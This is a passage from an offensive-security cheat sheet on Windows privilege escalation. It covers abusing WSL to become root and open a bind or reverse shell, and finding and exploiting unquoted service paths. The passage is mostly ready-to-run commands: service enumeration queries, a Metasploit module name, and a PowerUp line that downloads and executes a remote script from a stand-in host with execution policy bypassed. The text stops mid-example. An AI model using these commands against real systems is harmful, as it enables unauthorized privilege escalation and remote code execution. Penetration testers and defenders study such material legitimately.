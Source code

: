 ## EoP - Windows Subsystem for Linux (WSL)

Technique borrowed from [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows  Subsystem for Linux (WSL)  allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ <distro>.exe --default-user root. Now start your bind shell or reverse.

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## EoP - Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

* Metasploit exploit : `exploit/windows/local/trusted_service_path`
* PowerUp exploit
    ```powershell
    # find the vulnerable application
    C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

    ...
    [*] Checking for unquoted service paths...
    ServiceName   : BBSvc
    Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
    StartName     : LocalSystem
    AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
    ...
